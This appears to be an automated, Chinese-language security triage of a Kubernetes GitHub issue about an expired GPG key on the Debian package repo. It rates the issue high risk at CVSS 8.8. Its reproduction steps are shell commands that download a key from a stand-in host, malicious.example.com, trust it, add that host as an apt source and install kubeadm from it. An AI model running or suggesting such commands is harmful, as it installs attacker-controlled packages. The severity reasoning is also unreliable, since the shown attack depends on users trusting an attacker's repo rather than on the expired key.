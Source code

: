 #### Related plugins (CNI, CSI, ...) and versions (if applicable)

deb repo

### 分析结果

**风险定级：**  
高风险

**判断依据：**  
该Issue报告了用于安装Kubernetes的debian仓库的GPG签名密钥已过期，导致在使用该仓库进行安装时出现签名无效的错误。这意味着软件包的来源无法被验证，可能存在被篡改的风险。如果用户忽略签名警告，继续安装软件，攻击者可能利用这一点进行中间人攻击，向用户分发恶意软件包，导致代码执行、容器逃逸、提权等严重的安全问题。

根据CVSS 3.1标准，漏洞评分如下：

- **攻击向量（AV）**：网络（N）
- **攻击复杂度（AC）**：低（L）
- **权限要求（PR）**：无（N）
- **用户交互（UI）**：需要（R）
- **作用域（S）**：未改变（U）
- **机密性影响（C）**：高（H）
- **完整性影响（I）**：高（H）
- **可用性影响（A）**：高（H）

综合得分：**8.8（高）**

因此，该Issue存在高风险安全问题。

**复现过程：**

```json
[
  {
    "cmd": "wget https://malicious.example.com/kubernetes/deb/Release.key -O malicious.key",
    "explain": "攻击者创建了一个恶意的Release.key，诱导用户下载"
  },
  {
    "cmd": "sudo apt-key add malicious.key",
    "explain": "用户将恶意GPG密钥添加到系统中"
  },
  {
    "cmd": "sudo sh -c 'echo \"deb [signed-by=/usr/share/keyrings/kubernetes-archive-keyring.gpg] https://malicious.example.com/kubernetes/deb/ stable main\" > /etc/apt/sources.list.d/kubernetes.list'",
    "explain": "用户将恶意软件源添加到系统软件源列表"
  },
  {
    "cmd": "sudo apt-get update",
    "explain": "更新包列表，系统信任了恶意软件源"
  },
  {
    "cmd": "sudo apt-get install kubeadm",
    "explain": "安装kubeadm，实际安装了被攻击者篡改的恶意软件包"
  }
]
```

---